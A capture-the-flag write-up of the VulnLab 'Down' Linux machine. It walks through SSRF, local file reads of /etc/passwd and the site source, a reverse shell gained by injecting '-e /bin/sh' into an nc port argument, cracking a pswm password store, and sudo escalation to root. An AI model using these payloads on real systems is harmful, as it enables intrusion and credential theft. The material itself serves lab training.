 ```yaml
---
title: VulnLab -- Down Writeup
date: 2025-03-30 00:00:00 +0800
categories: [linux machine]
tags: [web exploitaion,cve]
image:
    path: images/down-banner.png
---
```

# Down

Hello Friends,

Remo is Back

In this write-up, I’ll walk through how I pwned the **Down** machine from **VulnLab**. From initial enumeration to gaining root access, I’ll explain the key steps, tools, and techniques used to complete the box.

![image.png](../images/down-banner.png)

Let’s start by scanning the machine.

```bash
sudo nmap -sC -sV -sS -O -A -oN scanned.txt -p 22,80 --min-rate=1000 10.10.80.76
```

![image.png](../images/down.png)

Now let’s go and enumerate the website running on port 80

![image.png](../images/down%201.png)

The web application has a simple functionality that check if the website is down or not.

Now let’s open a http server and try to request ourselves

```bash
python3 -m http.server 80
```

![image.png](../images/down%202.png)

Now let’s enter our host in the application

```bash
http://10.8.5.233
```

![image.png](../images/down%203.png)

Now let’s see if we go a request!

![image.png](../images/down%204.png)

and we Did!

Now let’s try Server-Side Request Forgery (SSRF)

```bash
http://127.0.0.1
```

![image.png](../images/down%205.png)

Okay nice we got a response back.

Now let’s try to fuzz the localhost ports using FFUF

First let us create a port wordlist

```bash
for i in {1..65535}; do echo $i >> ports.txt; done
```

![image.png](../images/down%206.png)

Now let’s use FFUF

```bash
ffuf -u "http://10.10.80.76/index.php" -X POST --data "url=http://127.0.0.1:FUZZ" -w ports.txt -fw 131
```

![image.png](../images/down%207.png)

Unfortunately no luck! 😓

Let’s go back to our website and try to add the file wrapper after the valid URL

```bash
http://10.8.5.233/ file:///etc/passwd
```

![image.png](../images/down%208.png)

and we did it we have a Local File Inclusion so let’s go and read the source code of the application.

```bash
http://10.8.5.233/ file:///var/www/html/index.php
```

![image.png](../images/down%209.png)

> Amazing! we got the application source code.
> 

Now let’s start analysis.

```php
if ( $valid_ip && $valid_port ) {
    $rc = 255; $output = '';
    $ec = escapeshellcmd("/usr/bin/nc -vz $ip $port");
    exec($ec . " 2>&1",$output,$rc);
    echo '<div class="output" id="outputSection">'; 
```

![image.png](../images/down%2010.png)

> Notice that there is an advanced feature named expertmode this allow us to execute nc in the server terminal
> 

now let’s try to abuse it

First go to the website and enable the expert mode through the expertmode GET parameter.

```bash
http://10.10.80.76/index.php?expertmode=tcp
```

![image.png](../images/down%2011.png)

notice that the design changed!

Now open a listener on your machine 

```bash
nc -nlvp 1337
```

![image.png](../images/down%2012.png)

no go back to the website and enter you IP in the IP filed and you port in the port tab and intercept the request.

![image.png](../images/down%2013.png)

Now let’s intercept the request.

![image.png](../images/down%2014.png)

now in the port parameter append the following

```bash
-e /bin/sh
```

![image.png](../images/down%2015.png)

That will till the nc to execute the bash to us.

now send and go back to our listener.

![image.png](../images/down%2016.png)

now let’s stable the shell

```python
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

![image.png](../images/down%2017.png)

now press CTRL + Z

![image.png](../images/down%2018.png)

now let’s enter this in the terminal

```python
stty raw -echo;fg
```

![image.png](../images/down%2019.png)

last enter this command

```python
export TERM=xterm
```

![image.png](../images/down%2020.png)

now we got full stable shell

also we got the flag yeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeah!

![image.png](../images/down%2021.png)

now let’s try to get root privilege

navigate to the local user directory

```python
cd /home/aleks/.local/share/pswm
```

![image.png](../images/down%2022.png)

Notice that we found the user password manager so let’s use pswm-decryptor to decrypt it.

```python
cat pswm
```

![image.png](../images/down%2023.png)

now let’s run the decryptor

```python
python3 pswm-decrypt.py -f pswm -w /usr/share/wordlists/rockyou.txt 
```

![image.png](../images/down%2024.png)

notice that we decrypted the passwords and got the password for the user Aleks.

Now let’s login via SSH

```python
ssh aleks@10.10.80.76
```

![image.png](../images/down%2025.png)

and we logged it! 

Now let’s try to see our privileges on the machine

```python
sudo -l
```

![image.png](../images/down%2026.png)

notice that we can run everything as root!

```python
sudo su
```

![image.png](../images/down%2027.png)

now let’s cd to the root directory and see the flag!

```python
cd /root;ls -las
```

![image.png](../images/down%2028.png)

Amazing I did it!

![image.png](../images/down%2029.png)

That’s it for the **Down** machine! This challenge was a great test of enumeration and exploitation skills. Hope you found the write-up useful.

Remo

CRTE | CRTO | CRTP | eWPTX
